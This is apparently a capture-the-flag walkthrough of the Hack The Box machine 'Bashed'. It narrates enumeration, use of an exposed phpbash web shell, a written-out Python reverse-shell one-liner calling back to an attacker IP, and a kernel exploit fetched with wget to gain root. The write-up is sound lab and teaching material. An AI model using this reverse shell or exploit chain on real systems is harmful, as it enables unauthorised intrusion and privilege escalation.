

# Bashed


We'll kick ```nmap``` off to see what's what.


Looks like all we have to work with is a web server on ```80``` running Apache httpd 2.4.18. 

Let's take a look to see what's running on Apache.


It looks to be a blog of some sort talking about developing a tool called phpbash, which, if we look at the github page, uses the ```shell_exec``` php function.

Let's run ```dirb``` against the site to see if we can find where phpbash was developed on this server.


It looks like there's a directory called ```dev```.  Let's take a look to see what's there.



Looks like there's a ```phpbash.php``` file, let's use this for our purposes.


Looks like we're currently running as the ```www-data``` account.

Let's go after the user flag.


Let's try to get a more interactive shell.  First we'll setup a listener.


Now we're going to use the following command to make our call back, since we don't have ```netcat``` on this machine.

>
> sudo -i -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.██.█",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
>

Let's check our listener to see if it worked.


Looks like our connection back is good.  Now let's run ```uname -a``` to see what kernel version of linux we're running.


Based on the results, we can search for 4.4.0-62-generic privilege escalation.  We'll be using https://www.exploit-db.com/exploits/41458.

We'll use ```vi``` to paste the code and save it, after which we need to use ```gcc``` to compile the binary file.


Once we have the file compiled, we'll serve it up via a python web server.


Once that's up, we'll pull down the binary using ```wget``` on the target machine.


Now we have to change the file permissions for ```pwn``` using ```chmod``` so that we can execute it, and then do so.


Looks like we're now running as root, so let's grab the root flag.


That's all for now, folks.

___

[Back](../)
